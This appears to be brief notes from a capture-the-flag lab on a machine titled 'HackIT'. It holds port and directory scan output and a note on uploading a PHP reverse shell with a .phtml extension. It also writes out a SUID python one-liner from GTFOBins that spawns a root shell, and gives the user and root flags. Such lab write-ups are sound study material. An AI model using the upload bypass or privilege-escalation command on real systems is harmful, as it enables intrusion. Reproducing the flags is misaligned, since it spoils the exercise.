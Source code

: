 <pre>
Machine IP: 

Enum:
    Open ports:
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Enum port 80: (gobuster)
    /index.php (Status: 200)
/uploads (Status: 301)
    Uploads from panel
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
    Upload php reverse shell with .phtml extension


Priv esc enum: (linpeas.sh)
    Download lenpeas.sh via python http.server,wget

    And we find a priv esc path:
        /usr/bin/python
    
    And use that from gtfobins:
        /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

User Flag: THM{y0u_g0t_a_sh3ll}
Root Flag: THM{pr1v1l3g3_3sc4l4t10n}
</pre>
